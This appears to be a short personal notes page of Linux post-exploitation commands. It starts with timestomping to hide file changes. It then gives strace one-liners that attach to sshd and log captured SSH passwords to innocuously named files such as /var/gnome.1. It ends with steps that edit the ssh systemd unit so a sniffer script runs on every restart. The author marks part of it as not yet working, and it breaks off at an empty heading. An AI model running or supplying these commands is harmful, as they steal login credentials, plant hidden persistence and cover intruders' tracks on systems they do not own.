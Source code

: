 Copy creation and modification time for all files that has been modified in 7 days. Source folder could be something like /bin

{% highlight shell %}
# touch $(find [target folder] -iname "*" -atime -7 -type f) -r [source folder/file]
{% endhighlight %}

****
****
****
****

# UNDER THIS DOES NOT WORK YEAT

****
****
****
****


## Get SSH credentials using strace

{% highlight shell %}
$ sudo strace -f -p $(pgrep -o sshd) -o sniff.txt -e trace=write
$ sudo /usr/bin/strace -f -p $(pgrep -o sshd) -e trace=write 2>&1 | grep '\\0\\0\\0\\4\|\\0\\0\\0\\10'
$ /usr/bin/strace -f -p $(pgrep -o sshd) -e trace=write 2>&1 | grep --line-buffered '\\0\\0\\0\\5\|\\0\\0\\0\\10' >> tiedosto.txt
$ /usr/bin/strace -f -p $(pgrep -o sshd) -e trace=write 2>&1 | grep --line-buffered -e "$(/bin/hostname)" -e '\\0\\0\\0\\10' >> tiedosto.txt
$ (/usr/bin/strace -f -p $(pgrep -o sshd) -e trace=write 2>&1 | grep --line-buffered -e "$(/bin/hostname)" -e '\\0\\0\\0\\10' >> /var/gnome.1) &
{% endhighlight %}

strace with reverse shell

{% highlight shell %}
$ sed -i -e 's/KillMode=process/KillMode=process\nExecStartPost=\/etc\/systemd\/system\/sshd.sh/g' /lib/systemd/system/ssh.service
$ printf '#!/bin/bash\n/usr/bin/strace -f -p $MAINPID -e trace=write 2>&1 | grep --line-buffered -e "$(/bin/hostname)" -e ' > /etc/systemd/system/sshd.sh
$ echo "'\\\\0\\\\0\\\\0\\\\10' >> /var/gnome.1 &" >> /etc/systemd/system/sshd.sh

$ chmod +x /etc/systemd/system/sshd.sh
$ systemctl daemon-reload
$ service ssh restart
{% endhighlight %}

strace with ssh
